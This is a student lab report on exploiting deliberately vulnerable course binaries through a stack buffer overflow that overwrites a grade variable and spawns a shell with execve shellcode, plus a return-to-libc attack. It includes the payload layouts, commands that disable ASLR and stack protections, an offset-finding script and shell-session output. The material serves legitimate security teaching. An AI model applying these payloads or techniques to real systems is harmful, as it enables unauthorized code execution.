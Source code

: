 # Lab Report: Buffer overflow exploitation

**Authors:**  
Michalis Lamprakis - 2020030077  
Christos Dimas     - 2021030183

This `README.md` serves as a lab report for the 8th exercise, explaining the code implementation of two exploits, a simple buffer overflow and a return-to-libc.

---
### Implementation: Part 1 - Buffer Overflow Attack
#### Grade modification
In order to modify our grade we observe the placement of Grade variable and its distance in memory with buf variable, using gdb. In this way we know that if we place 'A' 32 times we reach the place that Grade is written and then we can insert our prefered value.

So the payload is: 

```bash
python3 -c "print('A' * 32 + '\x09')" | ./Greeter
```

Why not 10?

We can not make our Grade 10 because the representation of decimal 10 in the ascii table is the newline character, which triggers `gets()` and forces it to stop the reading process.

#### Spawn a terminal shell

In order to spawn a terminal shell we need to overwrite the `$eip` register:

                |/////////////|
        ESP ->  |-------------|
                |             |
                |             |
                |  FUNCTION   |
                |  VARIABLES  |
                |             |
                |             |
                |             |
                |             |
        EBP ->  |-------------|
                |  STORED EBP |
                |-------------|
                |     EIP     |
                |-------------|
                |/////////////|

To find exactly how much characters we need to insert in order to overwrite the `$eip`, we use `cyclic()`and `cyclic_find()` from `pwn` python library  to generate an input, feed it to the executable, observe the point that segmentation fault appears and finally get the offset (OFFSET = 52).

After that, we know that the global variable "Name" resides in some area of memory that is marked as rwx (using mprotect), so it makes sense that we overwrite `$eip` with Name's address. To find that address we used gdb to set a breakpoint in printf and then `p &Name` command, which helps as find what we need (RETURN ADDRESS = 0x80e6ca0).

Examining the source code, we see that the first 128 bytes of the buf variable are copied into the Name buffer, so our payload should be the first thing we write into the buffer so that it gets copied into the executable segment.


**Payload:**

We used the following shellcode: http://shell-storm.org/shellcode/files/shellcode-811.php.
It pushes the string "/bin/sh" onto the stack and then calls the execve syscall to execute a shell.


```c
        08048060 <_start>:
        8048060: 31 c0                 xor    eax, eax          eax <- 0
        8048062: 50                    push   eax               push 0
        8048063: 68 2f 2f 73 68        push   0x68732f2f        push "//sh"     
        8048068: 68 2f 62 69 6e        push   0x6e69622f        push "/bin"
        804806d: 89 e3                 mov    ebx, esp          ebx <- esp
        804806f: 89 c1                 mov    ecx, eax          ecx <- 0
        8048071: 89 c2                 mov    edx, eax          edx <- 0
        8048073: b0 0b                 mov    al, 0xb           eax <- 11
        8048075: cd 80                 int    0x80              syscall (execve("/bin/sh", 0, 0))
        8048077: 31 c0                 xor    eax, eax          eax <- 0
        8048079: 40                    inc    eax               eax <- 1
        804807a: cd 80                 int    0x80              syscall (exit())
```

Shellcode length: 28 bytes

Since the shellcode is part of the offset to reach `$eip`, the correct padding after we write our payload is `Padding bytes = OFFSET - shellcode length`.

Finally the exploit is:

`Payload = shellcode + 'A'*Padding bytes + RETURN ADDRESS + newline`, we use newline to trigger gets() immediately.

To implement all the previously mentioned functionality, we built a python script that creates the payload saves it to a file `exploit` and with the help of `pwn` library execute `./Greeter` program and feeds it the payload as input.

Note: The suggested way to run and avoid issues with pipe and bad characters in input is the one that we show below.

So in order to see the solution:
```bash
# Enter python's virtual enviroment
source venv/bin/activate

# Run script and get the result
python3 payload_generator.py
```
And the result in the console:
```bash
[+] Starting local process './Greeter': pid 1013338
[*] Switching to interactive mode
What is your name?
Hello 1\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89°\x0b̀1\xc0@̀AAAAAAAA$, your grade is 1094795585. Have a nice day.
$ cd /
$ ls
bin		   etc		      lib64	  opt	sbin.usr-is-merged  tmp
bin.usr-is-merged  home		      libx32	  proc	snap		    usr
boot		   lib		      lost+found  root	srv		    var
cdrom		   lib.usr-is-merged  media	  run	swap.img
dev		   lib32	      mnt	  sbin	sys
$ exit
[*] Got EOF while reading in interactive
```


---

### Implementation: Part 2 - Return-to-libc Attack

This task is about completing a return-to-libc attack in a more secure program that does not allow stack execution `SecGreeter`.

To complete this task, we created a new python script to construct the payload, by doing the following steps:

1) We repeated the procedure that was made before for the offset calculation (OFFSET = 44)
2) Then we used once more gdb in order to find the base address of libc, with command : `info proc mapping` after setting a breakpoint in printf (LIBC ADDRESS = 0xf7d76000)
3) We calculated the offsets of `system()`, `exit()` and "bin/sh" from the base address using python in our script

So now to achieve this attack we need to redirect our program to run the `system("/bin/sh")` function and then ensure that after system returns the program will terminate peacefully. This is going to be achieved by the way sawn in the visual representation of Stack below:

```
                |/////////////|                 
        ESP ->  |-------------|                 
                |             |              
                |             |                       
                |   BUFFER    |                       
                |             |                                    
        EBP ->  |-------------|     
                |   BUFFER    |       
        EIP ->  |-------------|                   
                |   system    |
                |   address   |                    
                |-------------|                       
                |    exit     |
                |   address   |      <-- 2nd Execution                  
                |-------------|                  
                |   /bin/sh   |
                |   address   |      <-- 1st Execution                
                |-------------|                       
                |/////////////|                  
```

This will work because arguments are pushed onto the stack in reverse order so after the redirect, `/bin/sh` is going to be taken as the function's argument and be executed and then `exit()`.

So, `Payload = 'A'*44 + system address + exit address + /bin/sh address`.

To implement all the previously mentioned functionality, the python script creates the payload saves it to a file `exploitV2` and with the help of `pwn` library execute `./SecGreeter` program and feeds it the payload as input.

Note: The suggested way to run and avoid issues with pipe and bad characters in input is the one that we show below.

So in order to see the solution:

```bash

# Enter python's virtual enviroment
source venv/bin/activate

# Disable ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# Run script and get the result
python3 payload_generator_v2.py
```

And the result in the console:
```bash
[+] Starting local process './SecGreeter': pid 859903
[*] Switching to interactive mode
What is your name?
$ cd /
$ ls
bin		   etc	  lib.usr-is-merged  opt   sbin.usr-is-merged  tmp
bin.usr-is-merged  home   libx32	     proc  snap		       usr
boot		   lib	  lost+found	     root  srv		       var
cdrom		   lib32  media		     run   swap.img
dev		   lib64  mnt		     sbin  sys
$ exit
[*] Got EOF while reading in interactive

```
### Additional

1. There was created a program written in C programming language `test_shellcode.c`, so we can test our shellcode. To compile it and test your shellcode change the variable `const char shellcode[]` with yours and use the following command.

```bash
gcc -fno-stack-protector -z execstack -m32 -o shellcode_test shellcode_test.c
```

2. The script used to calculate the offsets
```python
from pwn import cyclic, cyclic_find

# Generate a cyclic pattern to give as input to the program
print(cyclic(132))

# Replace with the EIP value you noted
eip_value = 0x6161616c
offset = cyclic_find(eip_value.to_bytes(4, byteorder='little'))  # Convert to bytes
print(f"Offset: {offset}")
```